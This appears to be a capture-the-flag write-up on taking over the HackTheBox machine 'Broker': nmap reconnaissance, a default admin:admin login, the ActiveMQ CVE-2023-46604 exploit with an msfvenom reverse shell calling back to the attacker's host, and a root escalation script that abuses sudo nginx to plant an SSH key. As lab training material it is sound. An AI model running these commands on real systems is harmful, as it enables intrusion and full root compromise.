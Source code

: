 ```yaml
---
title: Broker
tags:
  - HackTheBox
  - Easy
  - Linux
  - ActiveMQ
  - Sudo-Vulnerability
  - Nginx
date: 2024-09-06T00:00:00Z
---
```

![](Pasted%20image%2020241106230259.png)

## Reconnaissance

First, I added the new host to my known ones:

```shell
sudo echo "10.10.11.243 broker.htb" | sudo tee -a /etc/hosts
```

Then, I performed a Nmap scan:

```shell
nmap -sC -T4 -p- broker.htb > sC.txt

[redacted]
PORT      STATE SERVICE
22/tcp    open  ssh
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp    open  http
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-title: Error 401 Unauthorized
1883/tcp  open  mqtt
5672/tcp  open  amqp
|_amqp-info: ERROR: AQMP:handshake expected header (1) frame, but was 65
8161/tcp  open  patrol-snmp
36379/tcp open  unknown
61613/tcp open  unknown
61614/tcp open  unknown
61616/tcp open  unknown
```

So I checked the website and got asked for some credentials:

![](Pasted%20image%2020241106230556.png)

I always try some basic combinations and in this case `admin:admin` worked!:

![](Pasted%20image%2020241106230631.png)

After inspecting the source code, I found the version in use of ActiveMQ (5.15.15) inside `/admin`:

![](Pasted%20image%2020241106230829.png)

## Weaponization

I searched in Google for "*activemq 5.15.15 exploit*" and found [CVE-2023-46604](https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ)

## Exploitation

I followed the instructions of the exploit:

```shell
git clone https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ.git

cd CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ

msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.24 LPORT=666 -f elf -o test.elf

# Now edit the poc-linux.xml and change the ip to you machine (in my case 10.10.14.24)

python3 -m http.server 8090

go run main.go -i {Target_IP} -u http://{IP_Of_Hosted_XML_File}:8001/poc-linux.xml
```

> I got a reverse shell :D

![](Pasted%20image%2020241106231752.png)

![](Pasted%20image%2020241106231819.png)

> After stabilizing, we can now read the user flag 

![](Pasted%20image%2020241106231938.png)

## Privilege escalation

If we run `sudo -l`:

```shell
sudo -l

[redacted]
User activemq may run the following commands on broker:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx
```

So I found a way to escalate privileges by using this [script](https://gist.github.com/DylanGrl/ab497e2f01c7d672a80ab9561a903406):

- First go to the home directory of an interactive session (`cd ~`)

```shell
echo "[+] Creating configuration..."
cat << EOF > /tmp/nginx_pwn.conf
user root;
worker_processes 4;
pid /tmp/nginx.pid;
events {
        worker_connections 768;
}
http {
	server {
	        listen 1339;
	        root /;
	        autoindex on;
	        dav_methods PUT;
	}
}
EOF
echo "[+] Loading configuration..."
sudo nginx -c /tmp/nginx_pwn.conf
echo "[+] Generating SSH Key..."
ssh-keygen
echo "[+] Display SSH Private Key for copy..."
cat .ssh/id_rsa
echo "[+] Add key to root user..."
curl -X PUT localhost:1339/root/.ssh/authorized_keys -d "$(cat .ssh/id_rsa.pub)"
echo "[+] Use the SSH key to get access"
```

Then run the exploit:

```shell
chmod +x exploit.sh
./exploit.sh
```

Store the SSH Private Key then use it to connect to the host:

```shell
chmod 600 root_key
ssh -i root_key root@host
```

> Now we are root and can read root flag

![](Pasted%20image%2020241106232845.png)

==Machine pwned!==